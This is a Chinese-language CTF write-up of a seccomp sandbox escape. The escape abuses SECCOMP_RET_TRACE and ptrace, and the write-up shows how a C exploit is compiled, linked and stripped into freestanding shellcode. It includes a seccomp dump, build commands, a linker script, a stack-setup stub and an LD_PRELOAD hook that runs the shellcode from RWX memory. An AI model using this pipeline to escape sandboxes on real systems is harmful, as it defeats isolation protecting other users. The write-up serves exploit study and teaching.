 ### TRACE 沙箱逃逸

本题目为羊城杯 pwn4，为一道沙箱逃逸题目。首先查看沙箱规则，注意到不像通常沙箱的行为直接`return KILL`，而是`return TRACE`。

```
$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0009
 0005: 0x15 0x03 0x00 0x00000101  if (A == openat) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x7ff00000  return TRACE
```

查阅资料发现`return TRACE`行为是由`SECCOMP_RET_TRACE`来控制，同时查阅第二节seccomp的手册对应的介绍。注意到两点（1）. 沙箱规则中的系统调用发生时回去通知该进程的tracer，tracer可以`skip`或者 `change to a valid system call`来处理本次系统调用。（2）. 4.8版本内核之前，在tracer被通知之后，沙箱就会不再检测，从而失效。第二点存在逃逸的可能，同时括号内说了seccomp-based的沙箱应该禁止ptrace系统调用。

```
$ man 2 seccomp
...
SECCOMP_RET_TRACE
        When  returned, this value will cause the kernel to attempt to notify a ptrace(2)-based tracer prior to
        executing the system call.  If there is no tracer present, the system call is not executed and  returns
        a failure status with errno set to ENOSYS.

        A  tracer  will  be notified if it requests PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).  The
        tracer will be notified of a PTRACE_EVENT_SECCOMP and the SECCOMP_RET_DATA portion of the filter's  re‐
        turn value will be available to the tracer via PTRACE_GETEVENTMSG.

        The  tracer  can  skip  the  system  call by changing the system call number to -1.  Alternatively, the
        tracer can change the system call requested by changing the system call to a valid system call  number.
        If  the  tracer asks to skip the system call, then the system call will appear to return the value that
        the tracer puts in the return value register.

        Before kernel 4.8, the seccomp check will not be run again after the tracer is notified.   (This  means
        that, on older kernels, seccomp-based sandboxes must not allow use of ptrace(2)—even of other sandboxed
        processes—without extreme care; ptracers can use this mechanism to escape from the seccomp sandbox.)

        Note that a tracer process will not be notified if another filter returns an action value with a prece‐
        dence greater than SECCOMP_RET_TRACE.
```

但是没办法确定远程环境的内核版本，同时查询到22年Google CTF有类似的[题目](https://n132.github.io/2022/07/04/S2.html)。作者进行了详尽的分析，它的环境应该是对执行二进制文件逃逸，但是本题只能用shellcode逃逸。把作者的exp拿来验证，确定本地可行。

接下来的工作就是怎么把作者的exp转化成shellcode放到本题来执行，这是我写这篇的目的。exp.cc中存在各种库函数的调用，还有fork之后父子进程的处理，手写shellcode比较复杂，所以尽量得借助于编译器。

1. 去除库函数的依赖

需要手动实现`syscall`和`memset`.
```
static __inline long syscall6(long n, long a1, long a2, long a3, long a4, long a5, long a6)
{
  unsigned long ret;
  register long r10 __asm__("r10") = a4;
  register long r8  __asm__("r8")  = a5;
  register long r9  __asm__("r9")  = a6;
  __asm__ __volatile__ ("syscall" : "=a"(ret) : "a"(n), "D"(a1), "S"(a2),
              "d"(a3), "r"(r10), "r"(r8), "r"(r9) : "rcx", "r11", "memory");
  return ret;
}

static __inline void zero(unsigned char *s, size_t n) {
  while (n--) *s++ = 0;
}
```

2. freestanding的编译

为了保证shellcode尽可能短，不需要lib库的链接以及各种安全机制。

```
$(CC) -w -c shellcode.S -o shellcode.o
$(CC) -ffreestanding -w -c exp.c -o exp.o
```

3. 链接到指定地址

在题目中前段可以实现任意shellcode的执行，因此可以通过mmap去映射一段指定地址的内存，这里我们那使用0x800000举例。我们需要把编译出的shellcode以及自定义的函数链接到0x800000地址上，这可以通过给ld一个`linker.ld`的配置。

```
$(LD) shellcode.o exp.o -o $@ -T linker.ld
```
我们需要把所有的内容都集成到text段，因此把text段设置为可读可写可执行。
```
PHDRS
{
    text PT_LOAD FLAGS(7);  /* 7 = Read + Write + Execute */
}

SECTIONS
{
    . = 0x800000;
    .text : 
    {
        *(.text)
        *(.data)
        *(.bss)
    } : text
}
```

4. 提供初始化

通常在正常执行`execve`切换进程镜像时，操作系统内核会为进程申请栈空间，之后再返回到用户态的入口点，这样_start函数不需要自己处理栈内存，这是ABI规定的。但是我们必须在shellcode的入口点提供栈地址的初始化，因为编译器编译出的函数是需要使用栈的内存的。

栈空间不需要太大，根据函数rbp-rsp的间距和函数调用链的长度判断。这里没用选择使用PC偏移寻址，因此需要mmap的内存和链接地址一样，而使用PC偏移寻址在下文会执行失败。

```
_start:
    lea rsp, [buf + 0x200]
    jmp exp
```

5. 测试shellcode

这是编译，链接，copy的流程。最后的exp.bin极为shellcode，可以使用xxd转化为头文件`exp.h`。

```
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin

xxd -i exp.bin > exp.h
```

我们通过劫持pwn题目的exit函数去验证执行shellcode能否绕过沙箱。

```
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

#include "exp.h"

int probe(unsigned long addr, char* shellcode, int len) {
    void *rwx = mmap(
        (void*)addr, len, 
        PROT_READ | PROT_WRITE | PROT_EXEC, 
        MAP_PRIVATE | MAP_ANONYMOUS, 
        -1, 
        0
    );
    if (rwx == MAP_FAILED) {
        perror("mmap");
        return EXIT_FAILURE;
    }
    memcpy(rwx, shellcode, len);

    // Jump to the mapped memory and execute
    void (*func)() = rwx;
    func();

    // Clean up
    munmap(rwx, len);\
    return EXIT_SUCCESS;
}

typedef void (*exit_fn_t)(int status);

void exit(int status) {
    printf("hooked exit(%d)\n", status);
    probe(0x800000, exp_bin, exp_bin_len);
    
    exit_fn_t real_exit = (exit_fn_t)dlsym(RTLD_NEXT, "exit");
    real_exit(status);
}
```

劫持exit测试shellcode发现成功绕过沙箱。

```
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```


### Speedrun

本文的贡献是介绍了利用编译的能力去创造出一个具有复杂执行流的shellcode的方法。全部的代码放到[这里](https://github.com/Giles-one/DeadSeaScrolls/YCB-pwn4)

```
$ make
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin
gcc -ggdb -o probe probe.c
xxd -i exp.bin > exp.h
gcc -ggdb -w -shared -fPIC -o hook.so hook.c
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```

